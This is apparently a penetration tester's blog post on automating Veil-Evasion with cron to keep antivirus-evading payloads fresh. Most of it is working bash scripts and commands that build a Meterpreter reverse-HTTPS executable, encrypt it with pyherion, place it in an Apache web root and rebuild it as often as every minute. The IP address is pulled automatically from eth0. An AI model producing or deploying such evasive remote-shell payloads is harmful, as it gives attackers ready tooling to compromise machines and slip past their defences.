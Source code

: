 ```yaml
---
layout: post
title: Fresh Veil
subtitle: Automatically Generating Payloads
summary: Keep your Veil payloads fresh to avoid getting caught by AV.
featuredimage: /assets/freshveil1.png
tags:
- veil
- payloads
---
```


Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.

Getting caught by AV during a test is not awesome.

Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.

The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. 

**Server Build**

This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).

For setup, make a directory called `/root/payload_temp` and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. 

The `/root/payload_temp` directory is where we’ll generate the payload before we move it to our apache root.


Let’s take a look at Veil’s command line options:
![Veil's Commandline Options](/assets/freshveil/freshveil1.png)


Using these options, you can generate any payload from within Veil from the command line.


For the example code below we’ll make a `python/meterpreter/rev_https_contained` payload:

```python
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite
```

The `--overwrite` is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.

With the Veil command figured out, create a bash script called `/payload_gen.sh` to generate the payload and move it to the apache root:

```bash
#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```

Now we’ll add this to the cron:

`crontab -e` will bring up the cron settings. In the first two blank lines enter:

```bash
10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh
```


This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.


That’s it. Easy, right?

Good. Moving on…

**Variable IP Auto-Generation**

Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.


So `payload_gen2.sh` will pull the active eth0 IPv4 address and plug it into the same script:

```bash
#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe
```


For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using `crontab -e` and place the following code at the bottom:
`* * * * * /payload_gen2.sh`


You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.

